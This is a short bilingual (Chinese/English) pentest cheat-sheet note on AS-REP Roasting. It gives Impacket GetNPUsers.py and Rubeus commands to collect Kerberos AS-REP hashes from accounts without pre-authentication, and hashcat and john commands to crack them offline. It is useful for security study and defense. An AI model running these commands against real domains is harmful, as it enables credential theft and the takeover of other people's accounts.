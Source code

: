 ```yaml
---
title: "AS-REP Roasting"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:38:01+08:00
draft: false
---
```


如果用户开启了“不使用[Kerberos]({{< relref "kerberos.md" >}})预认证”，攻击者就可以获取到 Kerberos AS-REP，经过用
户的 RC4-HMAC 密码加密过的，然后他就可以离线破解这个凭证了

With Impacket example GetNPUsers.py:

```bash
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

With Rubeus:

```bash
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

Cracking with dictionary of passwords:

```bash
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

几种攻击手法的区别：

-   AS-REP Roasting：获取用户 hash 然后离线暴力破解
-   [Kerberoasting]({{< relref "kerberoasting.md" >}})：获取应用服务 hash 然后暴力破解
-   黄金票据：通过假冒域中不存在的用户来访问应用服务
